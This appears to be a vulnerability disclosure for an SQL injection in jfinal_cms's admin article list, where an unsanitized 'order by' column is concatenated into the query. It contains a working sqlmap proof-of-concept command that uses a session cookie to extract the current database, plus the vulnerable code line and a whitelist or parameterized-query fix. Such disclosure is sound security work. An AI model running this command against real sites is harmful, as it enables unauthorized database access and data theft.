

# POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/article/list_approve  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=asc&attr.folder_id=-1&attr.title=&attr.status=-1&totalRecords=0&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```




Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist